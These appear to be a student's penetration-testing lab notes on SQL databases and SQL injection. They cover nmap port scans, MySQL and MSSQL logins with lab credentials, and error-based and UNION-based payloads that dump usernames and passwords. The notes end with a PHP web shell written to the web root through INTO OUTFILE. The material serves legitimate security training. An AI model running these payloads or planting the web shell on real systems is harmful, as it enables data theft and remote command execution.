 [SQLMap - Cheetsheat - HackTricks](https://book.hacktricks.xyz/pentesting-web/sql-injection/sqlmap)
[MySQL injection - HackTricks](https://book.hacktricks.xyz/pentesting-web/sql-injection/mysql-injection)
## SQL DB TYPES AND THEORY
MySQL and Microsoft SQL Server (MSSQL) most common
Identify the port using NMAP

### MYSQL
sudo nmap -T5 --top-ports=500 -sS 192.168.238.16

Nmap scan report for 192.168.238.16
Host is up (0.045s latency).
Not shown: 496 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
3306/tcp open  mysql              ----HERE IS THE PORT #
8000/tcp open  http-alt
8080/tcp open  http-proxy

After seeing the port, go to mysql if username/password provided

$ mysql -u root **-p'root'** -h 192.168.238.16 -P 3306
**(-p = Password)  (-P= Port)**

MySQL [(none)]> 

SIMPLE VERSION/SYSTEM AND DATABASE INFO
-MySQL [(none)]> select version ();
+------------+
| version () |
+------------+
| 8.0.21     |
+------------+
-MySQL [(none)]> select system_user();
+---------------------+
| system_user()       |
+---------------------+
| root@192.168.45.181 |
+---------------------+
-MySQL [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| sys                |
| test               |
+--------------------+

Sample of using finding an authentication string from an user
![[Pasted image 20230930080712.png]]

### MSSQL 
Impacket
Run Nmap to identify the service
┌──(hollacosta㉿kali1)-[~]
└─$ sudo nmap -T5 --top-ports=500 -sS 192.168.238.18                      
PORT     STATE SERVICE
53/tcp   open  domain
80/tcp   open  http
88/tcp   open  kerberos-sec
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
389/tcp  open  ldap
445/tcp  open  microsoft-ds
464/tcp  open  kpasswd5
593/tcp  open  http-rpc-epmap
636/tcp  open  ldapssl
**1433/tcp open  ms-sql-s**    -------HERE IS MSSQL
3268/tcp open  globalcatLDAP
3269/tcp open  globalcatLDAPssl

└─$ impacket-mssqlclient Administrator:Lab123@192.168.238.18 -windows-auth
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation


Encryption required, switching to TLS
 ENVCHANGE(DATABASE): Old Value: master, New Value: master
 ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
INFO(SQL01\SQLEXPRESS): Line 1: Changed database context to 'master'.
 INFO(SQL01\SQLEXPRESS): Line 1: Changed language setting to us_english.
ACK: Result: 1 - Microsoft SQL Server (150 7208) 
 Press help for extra shell commands
SQL> 

SQL> SELECT @@version;
Microsoft SQL Server 2019 (RTM) - 15.0.2000.5 (X64) 
        Sep 24 2019 13:48:23 
        Copyright (C) 2019 Microsoft Corporation
        Express Edition (64-bit) on Windows Server 2022 Standard 10.0 Build 20348: ) (Hypervisor)

SQL> SELECT name FROM sys.databases; -SHOWS DBS
name                                                                                         
master                                                                                       
tempdb                                                                                      
model                                                                                                
SQL> select * from offsec.dbo.users;    ---INFO ABOUT DB
username     password     

admin        lab          

guest        guest      

## SQL INJECTION ATTACKS
If you can use a ' at the end and receive a response, you can interact with the database
![[Pasted image 20230930093732.png]]

after finding the ' gets a response, you can use a cmd like this to find more information to interact further with it

offsec' OR 1=1 == //

![[Pasted image 20231001051716.png]]
' or 1=1 in **(select @@version)** -- //   -----**This is where the query goes!**

using a specific criteria will most likely provide you with the desired result
```
' or 1=1 in (SELECT password FROM users) -- //
```

![[Pasted image 20231001053044.png]]

being more specific would give you the information you desire (e.g. admin password)
```
' or 1=1 in (SELECT password FROM users WHERE username = 'admin') -- //
```
![[Pasted image 20231001053200.png]]


### UNION BASE SQL ATTACKS
some databases could be attacked using UNION SQL queries; The **UNION**[1](https://portal.offsec.com/courses/pen-200/books-and-videos/modal/modules/sql-injection-attacks/manual-sql-exploitation/union-based-payloads#fn1) keyword aids exploitation because it enables execution of an extra SELECT statement and provides the results in the same query, thus concatenating two queries into one statement. use this to see all the info for the users in the database

```
$query = "SELECT * from customers WHERE name LIKE '".$_POST["search_input"]."%'";
```

![[Pasted image 20231001054044.png]]

this could be use to determine the exact columns (if you get an error, you know you have exceeded the amount)
![[Pasted image 20231001054147.png]]

Use this command to enumerate the database. **use the % sign to retrieve ALL the information from the DB**
```
%' UNION SELECT database(), user(), @@version, null, null -- //
```

![[Pasted image 20231001054233.png]]

this cmd will give you an exact query info about the user (**no % use in this query since we know the specific info we are looking for**)
```
' UNION SELECT null, null, database(), user(), @@version  -- //
```
![[Pasted image 20231001054619.png]]

with this  cmd, we are attempting to enumerate the db
```
' union select null, table_name, column_name, table_schema, null from information_schema.columns where table_schema=database() -- //
```
![[Pasted image 20231001054924.png]]
with the next command, we are attempting to dump the user name, password and description
```
' UNION SELECT null, username, password, description, null FROM users -- //
```
![[Pasted image 20231001055033.png]]

### BLIND SQL INJECTIONS

### EXERCISES

#### Q5

```
' ORDER BY 1-- //
```
To identify columns.
![[Pasted image 20231004201438.png]]
![[Pasted image 20231004202641.png]]
![[Pasted image 20231004203231.png]]


<?php system($_GET['cmd']); ?>

' UNION SELECT null, null, null, null, "<?php system($_GET['cmd']);?>", null INTO OUTFILE "/var/www/html/webshell.php" -- //

![[Pasted image 20231004214100.png]]
